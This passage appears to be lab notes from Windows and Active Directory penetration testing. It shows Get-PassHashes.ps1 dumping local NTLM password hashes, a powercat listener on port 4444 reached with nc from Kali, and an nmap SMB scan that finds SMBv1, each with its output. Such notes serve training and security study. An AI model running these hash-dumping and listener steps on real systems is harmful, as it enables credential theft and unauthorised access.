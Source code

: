 import and run script

	PS C:\Users\testuser\Desktop\share> . .\Get-PassHashes.ps1
	PS C:\Users\testuser\Desktop\share> Get-PassHashes
	Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
	Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
	DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
	WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
	win10:1001:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
	

## Powercat

Download script from here : https://github.com/besimorhino/powercat/blob/master/powercat.ps1

import and start listener

	PS C:\Users\testuser\Desktop\share> . .\powercat.ps1
	PS C:\Users\testuser\Desktop\share> powercat -l -p 4444
	i connected from kali
	
connect from another device

	┌──(kali㉿kali)-[~/Desktop]
	└─$ nc 192.168.200.112 4444                                    
	i connected from kali

# Check smb version and server info

## nmap

	┌──(kali㉿kali)-[~/Desktop/ADAbuse]
	└─$ sudo nmap -p445 --script smb-protocols 192.168.200.100 -O -Pn                                                                                   130 ⨯
	Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
	Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-19 15:55 EDT
	Nmap scan report for valhalla.local (192.168.200.100)
	Host is up (0.00040s latency).

	PORT    STATE SERVICE
	445/tcp open  microsoft-ds
	MAC Address: 00:0C:29:7F:AE:D8 (VMware)
	Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
	Device type: general purpose
	Running: Microsoft Windows 2012
	OS CPE: cpe:/o:microsoft:windows_server_2012:r2
	OS details: Microsoft Windows Server 2012 or Windows Server 2012 R2
	Network Distance: 1 hop

	Host script results:
	| smb-protocols: 
	|   dialects: 
	|     NT LM 0.12 (SMBv1) [dangerous, but default]
	|     2.02
	|     2.10
	|     3.00
	|_    3.02
